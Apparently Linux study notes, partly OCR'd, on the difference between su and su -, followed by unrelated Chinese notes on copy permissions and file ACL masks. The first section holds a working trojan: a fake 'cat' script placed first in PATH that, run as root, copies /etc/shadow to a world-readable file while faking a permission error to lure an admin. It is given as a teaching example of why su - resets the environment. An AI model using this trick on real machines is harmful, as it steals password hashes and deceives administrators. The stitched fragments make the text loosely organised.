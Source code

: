 
su - invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

su just switches the user, providing a normal shell with an environment nearly the same as with the old user.

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.
```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
```
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

```bash
$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
```

If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

```bash
$ su
Password: ...
# cat /home/you/dummy_file
Some important dummy stuff in that file.
# exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
```
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.
```


```bash
38、/etc/fstab复制到/data/dir，至少需要什么权限？ 
1）cp命令 有执行权限 
2）/etc目录有执行权限，fstab读权限 
3）/data目录有执行权限，dir目录有执行和写权限
```


- facl中：mask 用来设置除所有者和other以外的用户或组的权限
- 一旦设置了facl，所看到的的组权限实际是mask权限，使用chmod更改组权限实际是更改mask权限。


```
[root@centos7 /data/test]$getfacl issue.bak 
# file: issue.bak
# owner: root
# group: root
user::rw-
user:steve:rw-
group::---
mask::rw-
other::---
```
